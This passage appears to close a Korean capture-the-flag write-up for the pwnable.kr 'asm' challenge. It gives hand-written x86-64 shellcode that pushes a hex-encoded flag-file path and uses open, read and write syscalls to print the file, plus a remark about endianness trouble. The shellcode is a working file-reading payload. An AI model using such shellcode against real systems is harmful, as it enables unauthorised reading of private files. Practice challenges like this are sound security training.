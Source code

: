 ~~~
push rax
mov rax, 0x69665f6568745f79
push rax
mov rax, 0x72726f732e656c69
push rax
mov rax, 0x665f736968745f64
push rax
mov rax, 0x6165725f65736165
push rax
mov rax, 0x6c705f656c69665f
push rax
mov rax, 0x67616c665f726b2e
push rax
mov rax, 0x656c62616e77705f
push rax
mov rax, 0x73695f736968742f
push rax
mov rax, 0x6e77705f6d73612f
push rax
mov rax, 0x656d6f682f2f2f2f
push rax

mov rdi, rsp
xor rsi, rsi
xor rax, rax
add al, 2
syscall

sub sp, 0xfff
lea rsi, [rsp]
mov rdi, rax
xor rdx, rdx
mov dx, 0xfff
xor rax, rax
syscall

xor rdi, rdi
add dil, 1
mov rdx, rax
xor rax, rax
add al, 1
syscall
  
xor rax, rax
add al, 60
syscall
~~~

이걸 컴파일 하는건 그냥 [Online x86 / x64 Assembler and Disassembler][online_assembler_link]를 이용했다. push할때 endianness 안지켜서 약간 삽질하다, 결국 flag를 얻을 수 있었다


[pwnable.kr]: https://pwnable.kr
[stack_overflow_chroot]: https://unix.stackexchange.com/questions/105/chroot-jail-what-is-it-and-how-do-i-use-it
[online_assembler_link]: https://defuse.ca/online-x86-assembler.htm